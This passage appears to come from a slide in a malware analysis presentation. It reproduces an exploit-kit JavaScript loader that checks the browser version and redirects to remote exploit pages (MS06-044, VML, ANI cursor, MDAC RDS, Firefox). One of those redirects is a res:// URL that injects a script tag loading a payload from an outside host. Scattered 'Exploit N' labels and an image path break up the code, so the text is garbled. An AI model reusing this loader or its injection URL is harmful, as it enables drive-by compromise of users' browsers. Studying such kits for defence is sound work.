

# http://ijk.cc/E/J.JS
Exploit 6
Exploit 1
function aB(){
	if(D){ return true;}
	aI("http://"+d+"/E/isci/isci_my.js");
};
function aK(){
	if(D){return true;}
	aD("http://"+d+"/E/ff104/ff104.htm");
};
function aL(){
	if(D){return true;}
	aD("http://"+d+"/E/ff154/ff154.htm");
};
function aF(){
	if(D){return true;}
	var ak="http://"+d+"/E/ms06044/ww.js";
	var url="res://mmcndmgr.dll/prevsym12.htm# %29%3B%3C/style%3E%3Cscript%20language%3D%27jscript%27%20src%3D%27"+ak+"%27%3E3C/script%3E%3C%21--//%7C0%7C0%7C0%7C0%7C0%7C0%7C0%7C0";
	document.location=url;
};
function ba(){
	if(D){return true;}
	aD("http://"+d+"/E/vml/vml.htm");
};
function bq(){
	if(D){return true;}
	switch(c){
	case "ie7":
	case "ie6_xpsp2":
		aD("http://"+d+"/E/ani/ani1.htm");
		break;
	case "ie6_xpsp1":
		aD("http://"+d+"/E/ani/ani2.htm");
		break;
	case "ie6_xpsp0":
		aD("http://"+d+"/E/ani/ani3.htm");
		break;
	case "ie6_2k":
		aD("http://"+d+"/E/ani/ani4.htm");
		break;
	default:break;
}};
function aQ(){
	if(D){return true;}
	aI("http://"+d+"/E/rds/mdac_rds.js");
Exploit 6a
Exploit 2
Exploit 6b
Exploit 3
Exploit 6c
Exploit 4
Exploit 6d
Exploit 7
Exploit 5